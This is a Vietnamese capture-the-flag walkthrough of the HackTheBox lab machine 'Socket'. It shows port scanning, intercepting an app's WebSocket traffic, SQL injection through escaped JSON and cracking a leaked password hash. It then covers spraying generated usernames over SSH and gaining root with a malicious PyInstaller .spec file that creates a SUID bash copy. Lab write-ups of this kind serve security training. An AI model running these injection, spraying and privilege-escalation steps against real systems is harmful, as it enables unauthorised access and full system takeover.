
## Enumeration
### Nmap
Nmap - Quét full port.
```bash
$nmap -p- --min-rate 1000 -oA nmap/alltcp 10.129.228.216
Starting Nmap 7.95 ( https://nmap.org ) at 2026-09-02 19:22 +07
Nmap scan report for 10.129.228.216
Host is up (0.063s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
5789/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 18.67 seconds
```
Quét chi tiết từng port.
```bash
$nmap -sC -sV -p 22,80,5789 -oA nmap/detailtcp 10.129.228.216
Starting Nmap 7.95 ( https://nmap.org ) at 2026-09-02 19:24 +07
Nmap scan report for 10.129.228.216
Host is up (0.063s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
|_  256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://qreader.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
5789/tcp open  http    websockets 10.4 (Python 3.10)
|_http-server-header: Python/3.10 websockets/10.4
|_http-title: Site doesn't have a title (text/plain).
Service Info: Host: qreader.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.12 seconds
```
### Websocket - TCP 5789
Cổng 5789 không nằm trong danh sách các port tiêu chuẩn, nên bước đầu tiên là thử mở trực tiếp bằng trình duyệt để xem có manh mối gì không?


### Website - TCP 80
Trang web sẽ trông như này.


### Tech Stack
`Werkzeug` là thư viện WSGI nền tảng cho Flask - framework web viết bằng Python. Khi thấy `Server: Werkzeug`, gần như chắc chắn đây là ứng dụng **Flask**.
```bash
HTTP/1.1 200 OK
Date: Fri, 04 Sep 2026 12:36:43 GMT
Server: Werkzeug/2.1.2 Python/3.10.6
Content-Type: text/html; charset=utf-8
Vary: Accept-Encoding
Content-Length: 6992
Keep-Alive: timeout=5, max=250
Connection: Keep-Alive
```
Bạn có thể tra thử [cheatsheet](https://0xdf.gitlab.io/cheatsheets/404) để biết trang 404 này thuộc **Flask**.



### Binary
Nó cho phép mình download một file zip có tên **QReader_lin_v0.0.2.zip**, unzip ra có 1 **test.png** và một file **qreader**.
```bash
$ls
qreader  test.png
```
Chức năng của app thì nó cũng tương như trang web. Khi mình chọn chức năng **Version** và **Update** có trong **About**. Thì nó hiển thị một dòng "[ERROR] Connection Error!" như góc dưới bên trái của ảnh.



Chương trình có khả năng kết nối mạng, nhưng không biết kết nối đi đâu, gửi gì. Nên mình quyết định bắt gói tin bằng WireShark xem nó hoạt động như nào. Kết quả quan sát được chương trình chạy, nó tự động gửi DNS query để phân giải tên miền `ws.qreader.htb` khác với domain chính `qreader.htb` mà mình biết từ trước.



Tiếp theo, cấu hình file `/etc/hosts/` để trỏ domain `ws.qreader.htb` về `127.0.0.1`:



Nhờ vậy, khi chương trình cố gắng kết nối tới `ws.qreader.htb:5789` như bình thường, nó sẽ tự động đi thẳng vào Burp (đang lắng nghe ở `127.0.0.1:5789`) thay vì kết nối trực tiếp ra máy Socket thật — mà chương trình hoàn toàn không nhận ra mình đang bị chặn giữa đường, vì với nó mọi thứ vẫn "trông giống" như đang kết nối đúng domain.



Kết quả là mọi WebSocket message được gửi đi giờ hiện đầy đủ trong tab WebSocket history của Burp, cho phép mình đọc chính xác cấu trúc JSON mà client gửi lên, cũng như replay/sửa lại để test tiếp các kỹ thuật injection ở bước sau.
## Shell as tkeller
### SQL Injection
**Vì sao phải escape dấu `"` khi test SQLI qua JSON?**


Khi làm việc với WebSocket message hoặc API dùng JSON, nếu bạn cố nhúng payload injection (SQL, command...) chứa dấu `"` mà không escape, JSON sẽ bị vỡ cấu trúc - vì dấu `"` không escape luôn được hiểu là kết thúc chuỗi, khiến phần bạn gõ phía sau bị đẩy ra ngoài, không còn nằm trong value nữa.


Ví dụ minh hoạ: muốn gửi giá trị `version` chứa payload SQL Injection:

```
{
  "version": "0.0.2" -- -"
}
```
-> Chuỗi đã đóng tại `0.0.2"`. Phần `-- -"` còn lại bị rơi ra ngoài, không còn nằm trong value nữa - JSON không hợp lệ. Tool như BurpSuite sẽ hiển thị lộn xộn hoặc không nhận đúng nội dung bạn muốn gõ. 

Cách đúng - escape dấu ngoặc kép:
```
{
  "version": "0.0.2\" -- -"
}
```
-> Dấu `\"` báo cho JSON biết: đây là ký tự `"` nằm trong nội dung, không phải ký tự kết thúc chuỗi. Toàn bộ payload nằm gọn trong 1 giá trị hợp lệ.


Khi server nhận JSON, nó tự động unescape - biến `\"` trở lại thành `"` bình thường. 

Thử một vài payload SQLI, tham khảo tại [CheatSheet-SQLi](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md) 





Ta trích xuất được cấu trúc như sau:
```
CREATE TABLE sqlite_sequence
(
name,
seq
),
CREATE TABLE versions 
(
	id INTEGER PRIMARY KEY AUTOINCREMENT, 
	version TEXT, 
	released_date DATE, 
	downloads INTEGER
),
CREATE TABLE users 
(
	id INTEGER PRIMARY KEY AUTOINCREMENT, 
	username TEXT, 
	password DATE, 
	role TEXT
),
CREATE TABLE info 
(
	id INTEGER PRIMARY KEY AUTOINCREMENT, 
	key TEXT, 
	value TEXT
),
CREATE TABLE reports 
(
id INTEGER PRIMARY KEY AUTOINCREMENT, 
	reporter_name TEXT, 
	subject TEXT, 
	description TEXT, 
	reported_date DATE
),
CREATE TABLE answers 
(
	id INTEGER PRIMARY KEY AUTOINCREMENT,
	answered_by TEXT,  
	answer TEXT , 
	answered_date DATE, 
	status TEXT,
	FOREIGN KEY(id) REFERENCES reports(report_id)
)
```
Ưu tiên leak user.



Vào trang web https://crackstation.net/ để crack password.



SSH thử và bị fail:
```bash
$ netexec ssh 10.10.11.206 -u admin -p denjanjade122566
SSH         10.10.11.206    22     10.10.11.206     [*] SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.1
SSH         10.10.11.206    22     10.10.11.206     [-] admin:denjanjade122566 Authentication failed.
```

Trong quá trình đó leak được user khác (Thomas Keller) thông qua table answers.



Tạo danh sách username có khả năng từ một tên người thật thông qua **[username-anarchy](https://github.com/urbanadventurer/username-anarchy)**
```bash
$ ./username-anarchy thomas keller > /home/hakai/HackTheBox/Machine/Socket/usernames 
thomas
thomaskeller
thomas.keller
thomaske
thomkell
thomask
t.keller
tkeller
kthomas
k.thomas
kellert
keller
keller.t
keller.thomas
tk
```
SSH thành công!
```bash
$netexec ssh 10.129.228.216 -u usernames -p denjanjade122566
[*] First time use detected
[*] Creating home directory structure
[*] Creating missing folder logs
[*] Creating missing folder modules
[*] Creating missing folder workspaces
[*] Creating missing folder obfuscated_scripts
[*] Creating missing folder screenshots
[*] Creating missing folder logs/sam
[*] Creating missing folder logs/lsa
[*] Creating missing folder logs/ntds
[*] Creating missing folder logs/dpapi
[*] Creating default workspace
[*] Initializing WMI protocol database
[*] Initializing WINRM protocol database
[*] Initializing VNC protocol database
[*] Initializing SSH protocol database
[*] Initializing RDP protocol database
[*] Initializing NFS protocol database
[*] Initializing LDAP protocol database
[*] Initializing FTP protocol database
[*] Initializing SMB protocol database
[*] Initializing MSSQL protocol database
[*] Copying default configuration file
SSH         10.129.228.216  22     10.129.228.216   [*] SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.1
SSH         10.129.228.216  22     10.129.228.216   [-] thomas:denjanjade122566
SSH         10.129.228.216  22     10.129.228.216   [-] thomaskeller:denjanjade122566
SSH         10.129.228.216  22     10.129.228.216   [-] thomas.keller:denjanjade122566
SSH         10.129.228.216  22     10.129.228.216   [-] thomaske:denjanjade122566
SSH         10.129.228.216  22     10.129.228.216   [-] thomkell:denjanjade122566
SSH         10.129.228.216  22     10.129.228.216   [-] thomask:denjanjade122566
SSH         10.129.228.216  22     10.129.228.216   [-] t.keller:denjanjade122566
SSH         10.129.228.216  22     10.129.228.216   [+] tkeller:denjanjade122566  Linux - Shell access!

$sshpass -p denjanjade122566 ssh -o StrictHostKeyChecking=no tkeller@10.129.228.216
tkeller@socket:~$ cat user.txt 
********
```
## Privilege: tkeller -> root
Check những thông tin cần thiết cho việc leo root:
```bash
tkeller@socket:~$ sudo -l
Matching Defaults entries for tkeller on socket:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User tkeller may run the following commands on socket:
    (ALL : ALL) NOPASSWD: /usr/local/sbin/build-installer.sh
```
Source code của target:
```bash
$cat build-installer.sh 
#!/bin/bash
if [ $# -ne 2 ] && [[ $1 != 'cleanup' ]]; then
  /usr/bin/echo "No enough arguments supplied"
  exit 1;
fi

action=$1
name=$2
ext=$(/usr/bin/echo $2 |/usr/bin/awk -F'.' '{ print $(NF) }')

if [[ -L $name ]];then
  /usr/bin/echo 'Symlinks are not allowed'
  exit 1;
fi

if [[ $action == 'build' ]]; then
  if [[ $ext == 'spec' ]] ; then
    /usr/bin/rm -r /opt/shared/build /opt/shared/dist 2>/dev/null
    /home/svc/.local/bin/pyinstaller $name
    /usr/bin/mv ./dist ./build /opt/shared
  else
    echo "Invalid file format"
    exit 1;
  fi
elif [[ $action == 'make' ]]; then
  if [[ $ext == 'py' ]] ; then
    /usr/bin/rm -r /opt/shared/build /opt/shared/dist 2>/dev/null
    /root/.local/bin/pyinstaller -F --name "qreader" $name --specpath /tmp
   /usr/bin/mv ./dist ./build /opt/shared
  else
    echo "Invalid file format"
    exit 1;
  fi
elif [[ $action == 'cleanup' ]]; then
  /usr/bin/rm -r ./build ./dist 2>/dev/null
  /usr/bin/rm -r /opt/shared/build /opt/shared/dist 2>/dev/null
  /usr/bin/rm /tmp/qreader* 2>/dev/null
else
  /usr/bin/echo 'Invalid action'
  exit 1;
fi
```
### Review Code

Script cho phép hai thao tác chính:
```
build <file>.spec -> chạy pyinstaller <file>.spec
make <file>.py -> chạy pyinstaller -F --name "qreader" <file>.py
```

Một file `.spec` không phải dữ liệu cấu hình tĩnh - nó là mã Python thật, và khi PyInstaller build, nó dùng `exec(compile(...))` để thực thi trực tiếp nội dung file đó trong tiến trình build, trước khi bắt đầu quá trình đóng gói.


Vì vậy, bất kỳ ai kiểm soát được nội dung file `.spec` truyền vào PyInstaller đều có thể chèn code Python tuỳ ý, và code đó sẽ chạy với quyền của tiến trình pyinstaller - ở đây là root.

### Exploit Strategy

Tạo `/tmp/evil.spec`:

```
import os
os.system("cp /bin/bash /tmp/rootbash; chmod 4755 /tmp/rootbash")
```

Thay vì các directive PyInstaller chuẩn (Analysis(...), PYZ(...), EXE(...)), file này chỉ chứa lệnh hệ thống copy /bin/bash ra /tmp/rootbash và gắn bit SUID.

```
tkeller@socket:/tmp$ sudo /usr/local/sbin/build-installer.sh build /tmp/evil.spec
329 INFO: PyInstaller: 5.6.2
329 INFO: Python: 3.10.6
331 INFO: Platform: Linux-5.15.0-67-generic-x86_64-with-glibc2.35
335 INFO: UPX is not available.
```

Log build có thể báo lỗi/không hoàn tất phía sau (vì file .spec thiếu cấu trúc hợp lệ để đóng gói) - không quan trọng, vì payload đã được thực thi trước khi PyInstaller kiểm tra cấu trúc.

```
keller@socket:/tmp$ ls -la rootbash 
-rwsr-xr-x 1 root root 1396520 Sep  4 09:45 rootbash
tkeller@socket:/tmp$ /tmp/rootbash -p
rootbash-5.1# cd ..
rootbash-5.1# ls
bin   dev  home  lib32	libx32	    media  opt	 root  sbin  srv  tmp  var
boot  etc  lib	 lib64	lost+found  mnt    proc  run   snap  sys  usr
rootbash-5.1# cd root/
rootbash-5.1# ls
cleanup  root.txt  snap
rootbash-5.1# cat root.txt 
********************
```
Có một cách khác đó chỉnh là dùng chức năng make để tạo ra file `.spec` (chuẩn cấu trúc) sau đó chèn thêm nội dung vào mục datas để đọc được các file chúng ta cần. [Tham khảo](https://0xdf.gitlab.io/2023/07/15/htb-socket.html#shell-as-root)

